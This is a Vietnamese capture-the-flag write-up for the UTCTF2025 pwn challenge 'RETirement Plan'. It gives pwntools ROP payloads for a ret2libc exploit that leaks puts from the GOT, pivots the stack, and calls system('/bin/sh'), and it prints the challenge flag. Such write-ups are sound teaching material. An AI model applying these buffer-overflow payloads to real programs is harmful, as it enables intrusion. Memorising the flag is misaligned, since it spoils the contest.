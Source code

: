 # RETirement Plan
## Challenge
[chall](https://github.com/PTIT-BunBo/UTCTF2025/tree/main/pwn/RETirement%20Plan)
## Find vulnerabilities
- Đọc qua code ta thấy có 2 lỗ hổng buffer overflow và format string, kết hợp với việc đề bài cho chúng ta libc thì có thể nghĩ đến ret2libc

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-9.png)
- Các chế độ bảo vệ đã được tắt

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-10.png)
## Exploit
Bước 1: Leak libc address và tính libc_base
- Ta sẽ leak libc của hàm puts và kết hợp stack pivot để đưa stack của chương trình vào vùng nhớ ngoài, vậy mục đích của stack pivot là gì?
Để chúng ta nhảy lại vào hàm main và nhập dữ liệu chiếm shell
- Dùng ROPgadget để lấy pop_rdi bằng câu lệnh sau: `ROPgadget --binary shellcode | grep "pop rdi"`
- Ta thử overflow theo lý thuyết thì xuất hiện lỗi:
```python3
payload = b'a'*64 + p64(rw_section) + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'] + 26)
p.sendlineafter(b'here>: \n', payload)
```

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-11.png)
- Sửa lại payload:
```python3
payload = p64(rw_section)*9 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'] + 26)
p.sendlineafter(b'here>: \n', payload)
```
- Chương trình chạy được và leak libc cho chúng ta
```python3
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak, "little")
print("Libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x6f6a0
print("Libc base: " + hex(libc.address))
```

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-12.png)

Bước 2: Lấy shell chương trình
- Lúc này ta đã lấy được libc_base và chỉ việc lấy shell thôi
- Trước khi lấy shell thì chúng ta nên lấy ROPgadget pop_rdi của libc cho thuận tiện trong việc khai thác
```python3
pop_rdi = 0x0000000000021112 + libc.address
payload = p64(rw_section)*9 + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
p.sendline(payload)
```
## Payload 
[script](https://github.com/PTIT-BunBo/UTCTF2025/tree/main/pwn/RETirement%20Plan/solve.py)
## Flag
```utflag{i_should_be_doing_ccdc_rn}```